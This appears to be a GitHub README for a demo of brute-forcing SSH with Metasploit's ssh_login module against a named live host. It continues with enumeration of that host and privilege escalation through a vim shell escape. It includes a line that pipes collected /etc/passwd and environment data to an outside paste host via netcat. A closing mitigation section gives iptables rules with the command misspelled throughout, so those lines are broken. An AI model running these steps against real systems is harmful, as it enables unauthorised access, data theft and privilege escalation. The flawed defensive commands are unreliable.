 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. *Note* this README and demo is still under developement.


Downloading Dictionary Files
------------

Clone the project on your local system:

    git clone https://github.com/sillihkram/Bruteforcing-SSH.git
    cd Bruteforcing-SSH/

unpack and prepare the list of commonly used users & passwords
    
    gunzip passwords.txt.gz
    cp passwords.txt /tmp/passwords.txt 
    cp users.txt /tmp/users.txt

Just so you are familiar, take at the content and format of the files 
    
    wc -l /tmp/passwords.txt # Notice this is a long list
    head /tmp/passwords.txt
    head /tmp/users.txt
    

# Installing Metasploit (RHEL, Fedora, CentOS)
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH
    # you may want to make this persistant add this line to your .bash_profile


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate

# Installing Metasploit (Mac)
------------

 Prerequisite:  you need to have home brew installed... https://brew.sh/
    
 Install Metasploit:
 
    brew install metasploit
     

# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploit modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success true
    set pass_file /tmp/passwords.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'podman:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l podman
    id
    sudo -l -U podman
    
podman appears to be a non privalaged user. Let's see what we can find out about the system...

    ls -lah $PWD
    firewall-cmd --list-ports >> $HOSTNAME.txt
    prinenv >> $HOSTNAME.txt
    cat /etc/passwd >> $HOSTNAME.txt
    yum list installed >> $HOSTNAME.txt
    
Let's grab a copy of the information we've collected 

    cat $HOSTNAME.txt | nc termbin.com 9999
    
# privilage escalation 
------------
Use vim to hide our shell

    vim 
    : ! /bin/bash -p
    
    
# Protecting a host from bruteforce
------------

Ensure iptables is installed:

    sudo yum install iptables -y

Add a simple rule to iptables to drop brute force attackes after an excessive amount of attempts

    itpables -P INPUT ACCEPT
    itpables -P FORWARD ACCEPT
    itpables -P OUTPUT ACCEPT
    itpables -N SSHBFATK
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --set --name SSH --mask 255.255.255.255 --rsource
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --update --seconds 600 --hitcount 50 --name SSH --mask 255.255.255.255 --rsource -j SSHBFATK
    itpables -A SSHBFATK -m limit --limit 5/min -j LOG --log-prefix "SSH: Detect brute force atk! " --log-level 6
    itpables -A SSHBFATK -j DROP
    
There is also an anisble playbook to create the above iptables rule. Try downloading it and running it against the local host:

    curl -LJO https://github.com/sillihkram/Bruteforcing-SSH/raw/main/mitigate-ssh-bruteforce.yaml

Now run the brute force exploit again and observe the behavior

    exploit

